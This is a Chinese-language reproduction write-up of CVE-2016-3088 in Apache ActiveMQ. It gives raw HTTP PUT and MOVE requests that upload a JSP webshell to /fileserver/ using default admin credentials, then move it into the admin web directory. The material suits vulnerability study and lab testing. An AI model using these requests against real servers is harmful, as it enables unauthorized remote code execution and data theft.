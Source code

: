 （CVE-2016-3088）ActiveMQ应用漏洞
=================================

一、漏洞简介
------------

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

二、漏洞影响
------------

Apache ActiveMQ 5.x \~ 5.14.0

三、复现过程
------------

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![](resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId24.png)

    PUT /fileserver/shell.jsp HTTP/1.1
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=

    shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![](resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId25.png)

    Request Raw:
    MOVE /fileserver/shell.jsp HTTP/1.1
    Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 17
    Content-Length: 0

    shell

![](resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId26.png)
